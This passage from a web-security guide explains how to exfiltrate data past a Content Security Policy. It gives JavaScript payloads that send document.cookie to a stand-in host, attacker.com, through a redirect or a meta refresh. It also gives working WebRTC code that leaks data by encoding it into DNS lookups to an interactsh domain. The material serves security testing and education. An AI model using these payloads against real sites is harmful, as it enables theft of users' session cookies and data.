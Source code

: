 With this technique, remember that even _one bit_ of information is enough, as you can often _repeat_ it to reveal a larger amount of information.&#x20;

A more general bypass for this is to _redirect_ the user fully using JavaScript, as browsers do not prevent this. Then in the URL, you put the data you want to exfiltrate to receive it in a request:

<pre class="language-javascript" data-overflow="wrap"><code class="lang-javascript">// Redirect via document.location:
<strong>location = `http://attacker.com/leak?${btoa(document.cookie)}`
</strong>// Redirect via &#x3C;meta> tag (only at start of page load):
<strong>document.write(`&#x3C;meta http-equiv="refresh" content="0; url=http://attacker.com/leak?${btoa(document.cookie)}">`)
</strong></code></pre>

Another useful method is WebRTC which **bypasses** `connect-src`. The DNS lookup is not blocked and allows for dynamically inserting data into the subdomain field. These names are case-insensitive so an encoding scheme like Base32 can be used to exfiltrate arbitrary data (max \~100 characters per request). Using [`interactsh`](https://github.com/projectdiscovery/interactsh) it is easy to set up a domain to exfiltrate from:

```shell-session
$ interactsh-client

[INF] Listing 1 payload for OOB Testing
[INF] ckjbcs2q8gudlqgitungucqgux7bfhahq.oast.online
```

Then we use the WebRTC trick to exfiltrate any data over DNS:

```javascript
function base32(s) {
  let b = "";
  for (let i = 0; i < s.length; i++) {
    b += s.charCodeAt(i).toString(2).padStart(8, "0");
  }
  let a = "abcdefghijklmnopqrstuvwxyz234567";
  let r = "";
  for (let i = 0; i < b.length; i += 5) {
    let p = b.substr(i, 5).padEnd(5, "0");
    let j = parseInt(p, 2);
    r += a.charAt(j);
  }
  return r.match(/.{1,63}/g).join(".");
}

async function leak(data) {
  let c = { iceServers: [{ urls: `stun:${base32(data)}.ckjbcs2q8gudlqgitungucqgux7bfhahq.oast.online` }] };
  let p = new RTCPeerConnection(c);
  p.createDataChannel("");
  await p.setLocalDescription();
}

leak("Hello, world! ".repeat(8));
```
